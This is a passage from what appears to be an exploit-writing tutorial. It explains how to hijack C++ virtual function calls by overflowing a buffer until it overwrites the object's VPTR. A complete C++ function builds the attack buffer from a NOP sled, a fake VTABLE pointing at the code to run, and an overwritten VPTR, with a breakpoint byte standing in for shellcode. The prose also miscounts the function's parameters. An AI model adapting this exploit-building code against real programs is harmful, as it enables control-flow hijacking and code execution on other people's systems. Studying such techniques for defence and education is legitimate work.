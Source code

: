 We are going to write a small function that will construct us a buffer.
This function will receive 3 parameters:
- `BufferAddress`: the address of the beginning of the buffer that we will 
overflow.
- `NAddress`: the number of addresses that we want in our VTABLE.

Here is the code of our `BufferOverflow()` function:


```c++
char *BufferOverflow(unsigned long BufferAddress,int NAddress,int VPTROffset) {
 char *Buffer;
 unsigned long *LongBuffer;
 unsigned long CCOffset;
 int i;
 
 Buffer=(char*)malloc(VPTROffset+4);
  // allocates the buffer.

 CCOffset=(unsigned long)VPTROffset-1;
  // calculates the offset of the code to execute in the buffer.
  
 for (i=0;i<VPTROffset;i++) Buffer[i]='\x90';
  // fills the buffer with 90h (NOP, old habit:)))
  
 LongBuffer=(unsigned long*)Buffer;
  // constructs a pointer to place addresses in our VTABLE.
  
 for (i=0;i<NAddress;i++) LongBuffer[i]=BufferAddress+CCOffset;
  // fills our VTABLE at the beginning of the buffer with the address of the 
  // shellcode.
  
 LongBuffer=(unsigned long*)&Buffer[VPTROffset];
  // constructs a pointeur on VPTR.
  
 *LongBuffer=BufferAddress;
  // value that will overwrite VPTR.
  
 Buffer[CCOffset]='\xCC';
  // our executable code.

 Buffer[VPTROffset+4]='\x00';
  // finishes by a 00h char (end string).
 
 return Buffer; 
}
```

In our program we can now call our BufferOverflow() function, with as 
parameters:
- the address of our buffer, here the address of our object (`Object[0]`).
- 4 values in our VTABLE, in this case (since `PrintBuffer()` is in `VTABLE+8+4`).
- 32 as offset for VPTR.
Here is the resulting code (`bo3.cpp`):
